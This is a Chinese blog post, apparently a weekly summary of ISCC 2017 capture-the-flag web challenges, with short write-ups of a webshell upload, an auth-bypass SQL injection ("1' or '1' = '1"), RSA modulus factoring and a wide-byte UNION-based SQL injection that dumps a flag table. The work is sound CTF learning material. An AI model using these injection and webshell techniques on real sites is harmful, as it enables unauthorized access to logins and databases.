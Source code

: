 ```yaml
---
layout: post
title: "第十三周总结"
date: 2017-05-21 14:58:44
description: "周总结"
tag: 总结
---
```



## web100_WelcomeToMySQL   
终于知道为什么解析不了了啊哭
这个得用php5传，不然解析不了，传完之后连上菜刀，根据里面一个base.php里面的信息填数据库配置，也就是说flag在数据库里

## web150_自相矛盾     
好吧找到了原题...
构造：    

```
http://139.129.108.53:8083/web-09/index.php?iscc={%22bar1%22:%222017a%22,%22bar2%22:[[1],1,2,3,0],%22a2%22:[%22nudt%22,1,2,3,0]}&cat[0]=%00isccctf2017&cat[1][]=1111&d=1
```

## web150_一起来日站啊     
扫描得到/robots.txt，打开后得到

```
robots.txt 
User-agent: * 
Disallow: /21232f297a57a5a743894a0e4a801fc3/
Disallow: /api
```
访问

```
http://139.129.108.53:5090/web-04/21232f297a57a5a743894a0e4a801fc3/admin.php
```
到达后台，使用万能密码且Post方式提交，flag出来了但藏得很隐蔽but肉眼可见==


```
username=admin&password=1' or '1' = '1
```

## Basic100_说我作弊需要证据   
Alice的n：  

```
0x53a121a11e36d7a84dde3f5d73cf = 1696206139052948924304948333474767 = 38456719616722997 · 44106885765559411
```

Bob的n：
```
0x99122e61dc7bede74711185598c7 = 3104649130901425335933838103517383 =  49662237675630289 · 62515288803124247
```


小明的flag      

```
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 1 --+
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 2 --+
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 3 --+    
Unknown column '3' in 'order clause'
```

```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select database(),null  --+

http://139.129.108.53:6980/web-08/?id=-1%df%27 union select database(),database()  --+

```

## web_robots
```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --+     
```
article,flag
```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select 1,hex(group_concat(id,0x7e,thisisflag)) FROM .flag --+      
```
317E666C61673A7B34343162376661313631373330376265393633323236336134343937383731657D  
HEX-ASCII